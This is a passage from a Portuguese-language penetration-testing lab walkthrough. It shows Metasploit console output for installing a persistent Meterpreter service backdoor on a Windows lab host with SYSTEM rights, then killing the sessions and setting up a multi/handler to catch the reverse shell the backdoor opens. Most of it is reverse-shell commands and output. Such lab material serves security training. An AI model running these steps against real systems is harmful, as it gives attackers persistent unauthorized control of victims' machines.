 ```bash
msf6 exploit(windows/local/persistence_service) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ATTACKDEFENSE  10.10.4.3:4444 -> 10.4.29.138:49724  (10.4.29.138)

msf6 exploit(windows/local/persistence_service) > set SESSION 1
SESSION => 1
```

Agora vamos executar o módulo de exploração com o comando `run`:

```bash
msf6 exploit(windows/local/persistence_service) > run

[*] Started reverse TCP handler on 10.10.4.2:4444 
[*] Running module against ATTACKDEFENSE
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\1\IhDTsJsS.exe
[*] Creating service onLE
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/ATTACKDEFENSE_20230214.2224/ATTACKDEFENSE_20230214.2224.rc
[*] Sending stage (175174 bytes) to 10.4.29.138
[*] Meterpreter session 2 opened (10.10.4.2:4444 -> 10.4.29.138:49764 ) at 2023-02-14 09:22:26 +0530

meterpreter > 
```

Agora, para testar se o backdoor de persistência foi instalado com sucesso, vamos colocar o `Meterpreter` em background com o comando `background` e matar a sessão com o comando `sessions -K`:


```bash
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(windows/local/persistence_service) > sessions -K
[*] Killing all sessions...
[*] 10.4.29.138 - Meterpreter session 1 closed.
[*] 10.4.29.138 - Meterpreter session 2 closed.
```

Agora vamos utilizar o modulo `exploit/multi/handler` para receber a nova sessão com o backdoor de persistência, para isso vamos utilizar o comando `use` e `show options` para listar as opções disponíveis:

```bash
msf6 exploit(windows/local/persistence_service) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```